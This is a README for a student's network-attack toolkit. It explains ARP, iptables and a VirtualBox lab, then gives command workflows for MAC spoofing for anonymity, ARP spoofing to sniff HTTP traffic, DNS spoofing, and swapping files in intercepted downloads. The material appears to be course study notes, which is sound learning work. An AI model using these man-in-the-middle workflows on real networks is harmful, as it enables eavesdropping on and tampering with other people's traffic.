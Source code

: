 
## Some commands
| Command  | Explanation |
| ------------- | ------------- |
| sudo ifconfig |Lists all interfaces and details.|
|sudo ifconfig <interface>|	Lists all details for the interface.|
|sudo ifconfig <interface> (down\|up) |	Disconnect/Connect interface.|
|sudo ifconfig <interface> hw ether <new mac> |	Spoof interface mac address (a.k.a. ether)|
|netdiscover -r <ip or range> |	Find connected devices on same network.|
|arp -a	| List ARP tables for the machine. |
|arpspoof -i <interface> -t <target ip> <new ip> |	Forces target on the interface into updating its ARP tables to point our MAC address to the new ip (usually the router).|
|echo 1 > /proc/sys/net/ipv4/ip_forward OR sysctl -w net.ipv4.ip_forward=1 | Write 1 (true) on the ip_forward file which enables packet forwarding through the machine. |
| route -n |	Lists the gateways in the network connected. This is helpful to find out the router’s IP address|
|iptables -L (--list) |	Check the existing iptables rules.|
|iptables -I (FORWARD\|INPUT\|OUTPUT) -j NFQUEUE --queue-num 0 | Creates a rule on the respective  chain of the type NetfilterQUEUE and gives it the identity number of 0. |
|iptables --flush |	Flush iptable rules. Leave only defaults.|

## Some notes 
**MAC address** - media access control – is a permanent identification sequence. This sequence can be changed. Devices on a network use the MAC address to communicate. Changing the MAC address improves anonymity. It also allows you to impersonate other devices and bypass filters.

**Interfaces** – **eth0, wlan0, lo** – these are all network interfaces. Eth0 is the Ethernet network. Wlan0 is the Wifi network and Lo is the localhost network. 

**Other terms** – INET refers to the IP address. ETHER refers to the MAC address.

**Network scanner** - Virtual Machines (VMs) cannot access the host machine's wireless card due to the concept of virtualization. To be able to scan wi-fi networks a USB Wi-Fi card is required. The USB ports must be enabled on the VM machine to be able to use the host machine’s USB ports.

**Nat Network** - If there is no USB Wi-Fi card available, then to test the concepts, you can have 2 VMs running. One will be the target, and another will be Kali VM. The connection between the two should be done via a Nat Network. To set up one go to (VirtualBox) Files > Preferences > Network > (click + sign). [YouTube video](https://www.youtube.com/watch?v=y0PMFg-oAEs).

**ARP - Address resolution protocol**
The ARP links the machine’s IP address to MAC addresses which are then used for communications. Basically, when an ARP request is sent, a broadcast message packet reaches everyone on the network and asks, *"who has <some ip>? Tell <sender ip>"*. Only the target machine, whose IP is <some ip>, will reply with its <mac address>. Finally, the initial sender updates its ARP tables which can be seen by running `arp -a`. 

**A few notes about the tutorial:**
The tutorial seems to be using scapy 2.4.2 yet 2.4.3 is out. There is a namespace conflict in PyCharm so importing scapy.all may cause an issue. If you see the squiggly line when importing scapy.all as scapy, simply ignore it. Sadly, this may also prevent you from using autocomplete and intelisense.

**Issue #1 – “text.kerning_factor” message:**
[Link to SO](https://stackoverflow.com/questions/61171307/jupyter-notebook-shows-error-message-for-matplotlib-bad-key-text-kerning-factor) - Commenting out this line fixed the message that kept coming up about "text.kerning_factor".

**Scapy classes info**
Using scapy.ls(<class>) will list all the fields that can be set.

**Issue #2 - NetfilterQueue**
Does not work with python 3.7 or 3.8. Works with python 2.7.18
On PyCharm, simply add an interpreter for Python 2.7. When running use python instead of python3.

It may be required to run the following to install the package. This fixed the issue above.
sudo apt-get install python-netfilterqueue

**iptables**
[More info here](https://www.howtogeek.com/177621/the-beginners-guide-to-iptables-the-linux-firewall/)
Essentially this is a firewall utility that checks whether connections to or from your machine can happen based on the rules defined. 

There are 3 chain types:
- INPUT – Controls the behaviour of incoming connections. Ex: a user tries to SSH into your machine. Before it happens, there will be an attempt to match the IP and port to the rule in the INPUT chain.
- FORWARD – This chain is for routing packets through your machine. Like a router, data is always coming in but it’s rarely destined for the router itself. This allows you to set up your machine as a pass-through device so you to capture all packets.
- OUTPUT – Same as INPUT but concerned with outgoing connections. 

Connections can be:
- ACCEPT – Accept connection.
- DROP – Drop connection. No error sent. Acts like connection never happened.
- REJECT – Reject and send error.


**Connecting Alfa card AWUS036NHA to Kali VM**
The only way I got it to work was to go to (VirtualBox) Settings > Network > (select “Not attached”). Reboot and once Kali boots up, connect the device. Previously, I had also run 
`sudo apt-get install firmware-atheros` which may have helped by installing some drivers.



## Full workflows
Each script can be launched individually. Consider spoofing your MAC address before launching any attacks to increase your anonymity within the network. 


**To spoof your MAC address**
- Launch Mac Spoofer - `sudo python3 mac_spoofer.py -i <interface> -m <new MAC addrress>`


**To discover devices connected to the network**
Ensure you are connected to the right interface (wlan0, eth0, etc.)
- Launch Net Discover  - `sudo python3 net_discover.py -i <ip or range>`


**To sniff a target’s HTTP traffic:**
- Launch ARP spoofer - `sudo python3 arp_spoofer.py -tip <target_ip> -rip <spoofed_ip>` 
    - it may be required to adjust the interval in seconds with the `-t <float>` flag.
- Launch Packet Sniffer - `sudo python3 packet_sniffer.py -i <interface>`
- Enable packet forwarding - `sudo sysctl -w net.ipv4.ip_forward=1`
    - Disable after attack is complete. - `sudo sysctl -w net.ipv4.ip_forward=0`

The sniffed traffic is captured in the Packet Sniffer window. 

⚠️ When lauching an ARP spoofer attack I have identified that the order of execution of the scripts matters: ARP Spoofer > Packet Sniffer > Enable packet forwarding. 


**To redirect/manipulate HTTP traffic:**
In order to perform a MITM attack, a proxy needs to be created to divert the packets through our machine so that they can later be exploited/manipulated.

- Enable iptables FORWARD rule type NFQUEUE - `sudo iptables -I FORWARD -j NFQUEUE --queue-num 0`
    - Disable after attack is complete. - `sudo iptables -F`
- Launch ARP Spoofer - `sudo python3 arp_spoofer.py -tip <target_ip> -rip <spoofed_ip>`
- Launch DNS Spoofer - currently it will only redirect the request.
`sudo python dns_spoofer.py -t <target_website> -r <redirecting_ip>`
- Enable packet forwarding - `sudo sysctl -w net.ipv4.ip_forward=1`
    - Disable after attack is complete. `sudo sysctl -w net.ipv4.ip_forward=0`

The DNS Spoofer window will output every successfull attack.


**To replace a file in HTTP traffic**
- Enable iptables FORWARD rule type NFQUEUE - `sudo iptables -I FORWARD -j NFQUEUE --queue-num 0`
    - Disable after attack is complete. - `sudo iptables -F`
- Launch ARP Spoofer - `sudo python3 arp_spoofer.py -tip <target_ip> -rip <spoofed_ip>`
- Enable packet forwarding - `sudo sysctl -w net.ipv4.ip_forward=1`
    - Disable after attack is complete. `sudo sysctl -w net.ipv4.ip_forward=0`
- Launch File Interceptor - `sudo python file_interceptor.py -e <extension> -f <replacement file url>`


### Todo
- [ ] Script for Full workflows
- [x] Update arp_spoofer script to handle IndexError on arrays
- [ ] Test NetfilterQueue with python 3.5 and 3.6